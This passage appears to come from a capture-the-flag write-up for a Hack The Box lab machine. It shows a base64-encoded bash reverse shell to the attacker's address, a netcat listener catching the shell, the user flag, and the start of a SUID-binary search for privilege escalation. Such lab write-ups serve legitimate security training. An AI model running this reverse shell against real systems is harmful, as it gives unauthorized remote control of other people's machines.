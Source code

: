 ![](/root/.config/marktext/images/2022-06-04-13-14-32-image.png)



```
┌──(root💀kali)-[~/htb/secret/local-web]
└─# echo -n "bash  -i >& /dev/tcp/10.10.16.8/1234  0>&1" | base64 -w 0                   1 ⨯
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuOC8xMjM0ICAwPiYx  
```



![](/root/.config/marktext/images/2022-06-04-13-15-06-image.png)

```
┌──(root💀kali)-[~/htb/secret]
└─# nc -lvnp 1234                           
listening on [any] 1234 ...
connect to [10.10.16.8] from (UNKNOWN) [10.129.93.191] 58312
bash: cannot set terminal process group (1143): Inappropriate ioctl for device
bash: no job control in this shell
dasith@secret:~/local-web$ id
id
uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)
dasith@secret:~/local-web$ 

```

got the shell



```
dasith@secret:~$ ls
local-web  user.txt
dasith@secret:~$ cat user.txt
ae431ca06c47b7fd76925e209d9e57a2
dasith@secret:~$ 

```

## 2. Privilege Escalation

Let' search for suid bit files.

```
dasith@secret:~$ find / -perm -4000 2>/dev/null
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/opt/count
/snap/snapd/13640/usr/lib/snapd/snap-confine
/snap/snapd/13170/usr/lib/snapd/snap-confine
/snap/core20/1169/usr/bin/chfn
/snap/core20/1169/usr/bin/chsh
/snap/core20/1169/usr/bin/gpasswd
```